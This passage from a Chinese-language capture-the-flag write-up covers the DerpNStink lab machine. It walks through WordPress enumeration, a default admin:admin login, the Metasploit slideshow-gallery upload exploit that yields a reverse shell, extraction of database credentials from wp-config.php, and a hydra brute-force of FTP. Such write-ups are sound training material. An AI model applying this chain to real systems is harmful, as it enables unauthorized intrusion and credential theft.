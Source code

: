 ```
<-- @stinky, make sure to update your hosts file with local dns so the new derpnstink blog can be reached before it goes live -->
```

-   http://192.168.10.158/webnotes/ 上发现了需要在本地/etc/hosts 中配置的本地域名：derpnstink.local，将 192.168.10.158 derpnstink.local 添加到/etc/hosts 中。同时还发现了一个 ssh 系统用户：stinky。

访问扫描出来的 http://derpnstink.local/weblog/ ，看到提示是 WordPress，可能漏洞点在这个 WordPress 上。使用 wpscan 先扫描一波，发现版本为：4.6.9，找到一个用户名：admin。

然后发现了系统上安装了一个 wordpress 插件：slideshow-gallery 1.4.6。搜索后，发现这个插件存在文件上传漏洞，可以上传后门，执行 RCE，但是需要一个用户名和密码，尝试用我们发现的 admin 用户名登陆，密码的话先试试 admin，竟然能登陆后台管理界面，设置成用户名和密码一致，也是经常发生的情况。

在 msf 中有直接利用这个插件进行上传后门代码的 exp：exploit/unix/webapp/wp_slideshowgallery_upload，设置好相应的 RHOST、username、passwd 后进行 exploit。

```
Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS       derpnstink.local  yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
RPORT        80                yes       The target port (TCP)
SSL          false             no        Negotiate SSL/TLS for outgoing connections
TARGETURI    /weblog           yes       The base path to the wordpress application
VHOST                          no        HTTP server virtual host
WP_PASSWORD  admin             yes       Valid password for the provided username
WP_USER      admin             yes       A valid username
```

执行后，获得了反弹的 meterpreter，shell 后，先升级 tty：python -c 'import pty; pty.spawn("/bin/bash")'

进入到 shell 后，先看看 mysql 是不是以 root 用户执行，发现是 www-data 用户执行。

获取到 wordpress 的数据库信息 /var/www/html/weblog/wp-config.php

```
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'mysql');
```

## flag2

进入到数据库后，查询 wp_posts ，找到了 flag2: flag2(a7d355b26bda6bf1196ccffead0b2cf2b81f0a9de5b4876b44407f1dc07e51e6)

发现 wp_user 对应的两个用户和密码：

```
admin:admin
unclestinky:wedgie57
```

发现了 2 个系统用户：mrderp、stinky，尝试用上面发现的 2 个密码去爆破下 ssh，看看能不能登陆，发现不能登陆，用密码访问被拒绝 Permission denied。前面我们还发现了有一个 ftp 的服务，尝试用这两个用户名去访问看看。

```
hydra -t 20 -L user -P pass ftp://192.168.10.158

[21][ftp] host: 192.168.10.158   login: stinky   password: wedgie57
```

